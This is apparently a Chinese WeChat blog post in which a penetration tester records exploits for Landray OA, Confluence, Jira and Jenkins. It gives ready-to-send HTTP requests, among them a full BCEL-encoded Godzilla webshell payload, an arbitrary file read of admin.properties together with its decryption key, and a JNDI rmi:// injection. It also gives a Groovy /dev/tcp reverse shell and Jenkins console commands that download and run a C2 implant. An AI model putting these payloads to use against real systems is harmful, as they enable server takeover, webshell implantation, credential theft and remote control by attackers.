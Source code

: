 #  漏洞利用记录(蓝凌&Confluence&Jira&Jenkins)

原创 carrypan  [ 安全艺术 ](javascript:void\(0\);)

**安全艺术** ![]()

微信号 AnQuanYiShu2022

功能介绍 安全培训、渗透测试欢迎来聊

____

___发表于_

收录于合集

最近测试攻入内网，碰到了很多漏洞，有些还需要去查找poc利用，比较浪费时间，还是简单记录下，方便后续查找吧，也有很多都是直接工具集成利用的，懒得整理了，有需要的可以公众号私信获取。

 **1、蓝凌OA前台sysSearchMain.do远程命令执行**

直接写入哥斯拉马

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0Content-Length: 6882Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Cache-Control: no-cacheContent-Type: application/x-www-form-urlencodedPragma: no-cacheUpgrade-Insecure-Requests: 1Accept-Encoding: gzip  
    var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=<java><void+class%3d"com.sun.org.apache.bcel.internal.util.ClassLoader"><void+method%3d"loadClass"><string>$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$b5X$5bs$db$c6$V$3e$b4$rSV$e88$91$e3$5b$92$sM$da4$ce$c5$WH$8aQ$Y$3bI$F$8a$A$c1$L$q$R$q$40$mmS$dc$E$80$c4$z$E$u$Sl$7fNg$fa$9c$X$b9S$cf$f4$H$f4$P$f5$ad$d3$b3$e0M$92e$3b$cd$b4$f6$I$Ev$cf$9e$3d$e7$3b$d7$dd$7f$fe$fb$ef$ff$A$80$o$fcy$T$de$87$c7Yx$b2$JW$e0$f1$s$7c$N$df$90$c7$b7$h$f0$dbM$d8$Dz$T$w$b0$bf$JU$606$81$85$da$spP$cfB$p$L$cdM$b8$B$8f7$a0$b5$J$f7$80$t$l$H$hpH$7e$8f6$n$H$ed$N$Q$b2$d0$d9$84$3b$84$7b$97$fc$8a$h$m$R$e2$k$99$97$c9C$c9$c2wY$f8$5d$G$ae$3dq$7c$t$fe$s$DW$l$7c$of$60$ad$S$Yf$Gn6$j$df$e4G$9ef$O$3b$aa$e6$e2$c8V3$d0UWT$87$O$f9$9e$P$ae$c5$b6$T$919F$8d$e2z$U$f8U$dd$O$e8J$b5$f98$D$9b$d5$89n$86$b1$T$f8H$b1$e6$a9$8e$9f$81$3b$P$bek$f6$d5$Tu$dbU$7dk$5b$88$87$8eo$3dN$b7U$87$W$92$dd$bad$3a$D$hOtw$n$a4$ee$o$d9$9bg$a8$w$ae$gEH$b4$W$aa$b1MD$b9$84A$$$c4$97X$g$3a$b19$yd$e0$f6$8c$c6$J$b6$PW$e3H$b6$k$d9$a6$ebf$mk$98$3a$a20$cc$c0$bdf4$f2$b7$3d$t$d2$b7$e9$3d$a1$fa$c5$ce$fel$86$f0$9c$R$cd$f6$c8$c0$N$nV$f5AK$NSd$Q$5c$E$40$IFC$ddd$i$82$d4$ed$8b$I$3d$o2$e4$e0$97$f0A$G$de$b88$99$85$df$e7$e0$P$f0$7d$O$fe$I$wZC$8b$ecG$9c$8fR$86C$T$9fY$d0r$a0$83$91$F3$H$c7$60e$c1$ce$81$D$fd$y$Mr$e0$82$97$F$3f$H$B$84$I$e8$r$9af$e0$eeE$8c$e8$91$e3$a6$Kg$a5$w$fd$90$e3$99$i$fc$A$c3$iD$Q$p$dan$609$fe$f7$ae$T$c5$89$Z$3d$eaGa$OF$Q$S$d9O27$febJ$dd$_$ebB$d5$ea$W$db$89$w$95$7c$aef$f7$P$Fn$wO$V$b7$c5r$3br$c7$ed$b7$3a$dd$a4$d5o$db$5c$3f$3aCG$dbz$b1U$e6$7c$d7$d5$Tn$97cxJ$f7$dc$91$92$d0$b1$b2$df$zk$d2Q$be1$a3$Z$9al$x$3cH$e8$be$c62S$3d$a1e$8e$Vw$MV$i$v$b5$96uT$98$m$N$df$d2$K$cc$40$e9$d5w$f5$9a$e8h$ac$db$e7$Y$x8$3f$c7Y$a6$e3$ee$eaEq$8c$ef$81$e9$Mv$8f$7bt$5e$f6$s$a1$9c$d0$fbs$de$ed$G$5b$_$no$ad$t$d0$7d$99$d0$7b$oe$f4$ea$p$ae$c6$e7uVL$9a$5e$dbU$88$9c$5d$3e$92$7b$fc$b4$c1$f2N$b3$b27nV$I$7d$vRP7$83$b5$c2$83$oe$9d$e1$ef$98$bd$b6$x$e5$v$cb$ac$d8$cbw$3d$998Z$a1$8ck$98$R$c7R$a1$99$d0$94$ee$bb$bb$aa$c7$U$e4$9e5$92$8b$f5$92$5ek$9f4$H$7c$a8$b3$b6$ab$3bt$ffP$Km$c3cv$9a$k$9f$98$3d$9a$d2$92$d2$be$da$a3$D$d4i$a4$UDJ$90JS$83eFr$a1$hp$D$86$e9$s$5cxPh$8d$Q$f3$d0$a8$d8$f1$e1$b4$faE$cb$99$8c$94$9en$3d$b7$8f$cf$8f$V$a95$ea$W$c4$3e$d1$5b$u$88$a5n$91v$e5$c4$de$91$93$92$af$f4$da$V$o$bb$9eXa$b3R$a7$dbb$cbi$I$83$VFlk$a4$b0e$W$f7$b2$b5$8a$3dmt$o$ebX$e2m$83$e5$D$aeb3$s$cb$bb$b8O$a8$Vv$yE8$83$z$5b$cak$ecx$97$ab$e5$cb$e8$X$L$cc$88$k$94$w$b5V$3e$c3$e6$H$bc$60w$8cZ$3d$d4$3c$j$f1$hXf$7e$e97$89$d2$3b$b2$O$FzdH$93$e8$A$d7$98$C$3d$c3R$uM$V$J$ed$e7$b9$94$v$94x$F$ed$sK$86$dbf$5d$d4$89$a7$Q$fb$5dM$d8$xs$y$c1$b6$3a$d2Q$7f$94$x4j$83QG$S$a7z$81$f1$95n$3bD$7c$a7F$r$c5$a1$ae$f9$3c$rK$a5$be$oXN$a7$7b$94$e7$d0$9f4$a1$84$3e$d2F$7d$bb$81$fe$i$5e$a9$8fL$9b$de$c4$d5$3c$83R$xV$d8$e8$c4K$99$97$f6$QJ$b1$dck$H$cdA$3dT$uw$84$be$e8$T$7fm$Jc$L$f9$PT$94$5b$_$k$F$88$3b$ce$95$XX$E$ad$8e$i6$fd$f6$89$d8$a3$d1$bf$eb$fb$e8$9bn$a3$82$3eN$fc$b8$d7$ee$ab$95$bd$a0$dd$b3$fb$K$fa$8c$w$95$R$f3n$c8$d5$e2$f2$ca$bf$eb$ae$b1$8f$f6$S$e8$b1$n$d5$p$82$bb$5e$q$ba$90XZb$ec$Q$be$7c$bf$cdh$k$7f$a2$a0$9e$b2$efR$8a$Y$h$i$5b$9f6$E$e4$5d$ab$9f$Y$c5$96un$afZ$bc$88$af$f9$fa$a3$ddU$kPl$ad$s$ba$dc$3eei$be$Yi$fb1$c6$A$da$b5P$b7$f5B$b7$c0$ef$e7$e7kK$9eV$ac$l$c8R$k$f5$aa$ff$m$f7$U$bb$e9$8b$c8$7f$3c$3a$f2$98$a9$d2$91$vb$83N$a1$fe$D$da$9a$e2$aa$o$c6$409$8d$7b$c4w$b1o$g$phSJe$cb$D$e4Cl4$d7EL8g$3c$93$a12$m$f1R$d0$K$b1$8b$f9$60$sGe9$b7$8b$f1$X$ZR$X$f9$ee$F$L$3d$g$dd$e5$7e$e9$k$b3$dc$d3B$3b$a5$7e$80$3e$d7$O$b4$c2Q$c0ys$3a$b1$7d$b2$c4$80$ec$eb$89E$ae$3a$cb$vi$9eX$e5$M$a4Oy$a1m$ce$c8$b5$d2$_$c2$f8q$8d$84$3e$94$bd$d0$95$8bm$92$bbv$89$3d$b8$g$95$e6$n$b9$c0Pr$c1$b2p$cd$8e$5c$Q$c7h$d3$T$cd$a1$5d$b4$d7$$$faO$89$abE$96$3c$c7$f0p$9e$d7$9a$9er$a2$P0$8e$r$cc$p$3e$9f$d7$9cR$ac$f6$f8$3e$fa$r$dd$a5$Q$8f$d5$fe$O$89$f3W$e1N$f4$3b$9b$9b$c8$9a$ff$J$8e$c2R$ff$99$9f$e4$d1$X$89$3es$bf$c4$3c$99$eaC$b0h$a2$P$h$5ey$a8$I$f6$d2$e6$Y$93i$ec$z$e4_$60$8f$beZ$c6$f8$c4$9c$f0$82$fc$d5$e1$d2$f89$eea$dc$d4$c4$E$f1$y$c8$d2$q$aft$5e$QC$ab$ba$b2$88$a1$w$ee$97$c6$d0$w$bf$fdw1$b4$8c$bd$ffW$M$b1m$f7$t$c6$d0$5c$97$9f$XC$L$3d$g$d2r$bfW$d8$7eN$f7$C$db$_$f0$7c$81$ed$H$LY$7f$b6$ed$F$c4v$5e_8$f6$a5$YO$Nig$a4I$ee$U$ebg$e5H$e4$99$95$dd$JV$83$5d$aeZvT$P$ebM$85$5e$caE$ec$b8$88$c7$a6$87$faa$j$m$7e$84$3e$9b$e6$f4$b3$f6$5e$f5$x$eeJ$_$cfp$8dy$$A$fa$8b$f6Z$d0U$MI$f1H$fc$$p$98$f7K$b3$fc$b1$cc$f9$a5E$dfUF$3b$84$9a$af$9c$a8$Y$bf$b8$be$af$V$b0$b6$zs$d7$5c$Pf$R$7fi$bezY$fdIH$fe9$ee$e5$b1$G$b6$b16$ef$y$f2$B$eaG$b9$87$fd$b1Kr$T$fa$f0$on$G$c8$c7$3e$94$e6xW$X$3e$60$e3z$sO$eax$aa7$83$3d$a3$c7$c4$K$a9$bb$8e$3dN1$409$U$ec$r$e4N$7e$a7$91$d6$e7$w$fa$N$c1$Q$f1$ec$c4$a1$e2$ec$FX$f3$b1$ce$93$bc$98$fa$gm$d4$88$P$d5$f3$a4$96s$3em$9b$d2$e4D$96$8e0$d7Q$e5$99$Pc$ff$b2Z3$7d$d9$9a$e6$ccG$e5F$ad$j$a8$bd$d6e$be$3d$f3$j$8a$d0$T$b9$b17$QJ$ed$b9$ac$a4O$u$x$d2$E$f7$88W$ba$fa$3c$da$98$a1H$fd$971$86I$l$a2$b3LB$fc$O$f1J$b0$a7$8eR$9dQ$f7y_$Rb$af$98$f6$pG$bdz$o$f7$dcC$a3$d7$k$e3$l$e9$n$5cYB$9f$c3$f1NQ$a4$O$a5T$deY$7e$f0$5c$ec$3fS$h$d0$ba_$b7$cdn9o$60$8ff$a4$fe$n$da$9a$80$bd$$$b5$f4a$efPX$f4$dd$ad$f0$tc$8au$ed$f9$fa$Q$7bMO$9c$Y$S$T$e9$89m$e3$de$u$ef$R$f6$b2$f2$88$60$80$b9vJ$ce$H$88$e5$beV$uQJ$cf$a6f$fd$U$3f$c6$ef$a92$c3$b5Gz$3e$d2$3f$n$9e$c5$f4$5d$b0$c9$f9$C$e3It$f4E$cd$d9$df$8bH$ff$94$ee$e9$af$ea2$895$d4q$aa$b3e$ec$J$bb$a9$dd$c4$o$f6$85$88$_$89$x$p$7d$c7$kh$k$abm$ec$HIL4jV$b0$c0$92$f0$3b$o$f9$ad$cb$q$e8$97$r$5c$Xq$88$D$fay8$ef$9d_$c9$9f$9c$85$d0$dey$d9_$c4$a45$e1$9d$c1$ec$8c$f1$92$fe$faX$e8$7e$a6$8f$bf$fe$gO$de$97$ld$f1$ecy$f1$y$98$831L$f00$dc$ed0$P$bf$q$87$bc$q$HS8$c9$c1$9f$c8Q$f5$d6$8a$7cy$be$3f$c7$e4$40$eb$9bz$7cn$a8c$PM$d5$c03$b2$3e$g$OM$3f$5e$7c$bf$f5$e0$93$e6E$w$3cY$df$b6$cc$b8$S$e0iw$S$a7$87$fbf$a0$a6$92$de$3fG$7ef$8a$ac$b9t$o$D$d7$5d$7cIG2$f0$d1$83K$ee$k$$$b9I$b8ya$I$95F$89$O$87A$8c$8a$a1$ba$fb$c1$ec2$e3$c3$85$3c$91$89$8a9q$b2$7d$91$G$99$bd$f7r$K$E$r$d5$d60g$97$F$Zx$f79$ae$abY$e4w$efEs$Zx$N9$91K$9a$b9I$W$7c$7c3$de$ee$b6$c9$8dL$ee$ec7$9e$f5$89V$e9$a5$c9yC$y$afM$d6$a3$d0u$d0$94$l_$G$dc$a575$d7$d404$7d4$ed$c3W$60$7d$ee$da$81$5c$f1$c4$c1$e2$s$e5$f6eK$c5$e5$85$L$3d$3a$3e$s$96$bds$a9Pt$G$ee$3e$f8$8e$be$9cC6$bd$Gr$R$9cu$dd$N$o$T$3e$80$x$f0$3e$90$7fW$nC$aeb$f0$fb$c3$f4n$$$83$ff$B$d6$3f$7d$K$99$l$f1$e5$K$fc$K$9f$e4$9e$O$Ha$N$ae$c1$af$f1$z7$p$82$8f$e07$f8$fb1$fe$ad$e1$c8$7bp$j$k$c0$tsV$bb$f8K$a8$ae$3f$83$x$f2S$b8$w$5ddw$j6$f0m$c5$ee$3a$7c$K$9f$9dc$b7$B$9f$a3d$Z$c2$$s$V$b7$bb$863$f6$df$60$ed$U$d6$b7$ae$9dB$b6$f1$e9$vl$9c$c2$f5S$d8$3c$85$d7$9a$cf$m$t$3f$83$h$b8$d9$eb$9fm$dd$3c$857$ae$WN$e1$cd$ad$z$7c$9c$c2$ad$a7$f0Vk$eb6$ff$M$ee$m$c1$dd$af$d6$9e$c1$3d$f9$fe$da$c3S$b8$bf$f5$f6Sx$e7$ab$f5$cf$ef$af$9f$c2$bb$9f$9f$c2$_$fe$Kk$8d$lS$99t8F9$ae$a6R$3f$82$d7$f0$f9$3aJ$7b$T$de$867$e0$J$bc$J$df$c2$W$d4$e0$W$c8$f0$W$7c$P$b7$91$fe$$$ae$b8$D$W$dcO5$fb$Ge$ce$81$E$Pq5$e0$w$O$b6$81B$ceOP$cb$3c$U$Q$87o$91$ae$88cW$91$cf$3b$b0$D$r$d4$5dF$5c$be$c0$b1u$E$91$e0r$e5_p$9c$85$_$R$F$u$a7$m$7e$f5$l$fci$9akK$V$A$A</string><void+method%3d"newInstance"></void></void></void></java>

访问路径/login_listyes.jsp，密码：yes

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093333.png)

 **2、 蓝凌OA前台任意文件读取**

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0Content-Length: 60Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Cache-Control: no-cacheContent-Type: application/x-www-form-urlencodedPragma: no-cacheUpgrade-Insecure-Requests: 1Accept-Encoding: gzip  
    var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093334.png)

解密密码：kmssAdminKey  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093335.png)

后台地址：/admin.do

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093336.png)

 **3、蓝凌OA后台JNDI远程命令执行**

###

登录后台

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /admin.do HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0Accept: */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeCookie: Content-Type: application/x-www-form-urlencodedContent-Length: 69  
    method=testDbConn&datasource=rmi://******:1099/remoteExploit7

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093337.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093339.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093340.png)

 **4、Confluence写入内存马**

直接上工具，利用CVE-2022-26134写入内存马 **  
**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093341.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093342.png)

在请求配置中添加如下内容：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093343.png)

利用后渗透插件，一键添加Confluence管理员账号：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093344.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093345.png)

 **5、Jira getshell**

查看版本信息，路径：/secure/admin/ViewSystemInfo.jspa

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093347.png)

下载对应插件版本

  * 

    
    
    https://marketplace.atlassian.com/apps/1218755/mygroovy/version-history

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093348.png)

进入插件管理，上传插件，路径：/plugins/servlet/upm

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093349.png)

上传后访问，/secure/JMWEGroovyScriptTester.jspa，执行如下命令

  *   *   * 

    
    
    def r = Runtime.getRuntime()def p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ip/port;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093350.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093352.png)

 **6、Jenkins getshell**

路径：/jenkins/script

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093353.png)

  * 

    
    
    println "wget http://ip/c2".execute().text

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093354.png)

  * 

    
    
    println "ls -lt".execute().text

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093355.png)

  * 

    
    
    println "chmod +x c2".execute().text

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715093356.png)

  * 

    
    
    println "./c2".execute().text

执行完直接上线cs

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

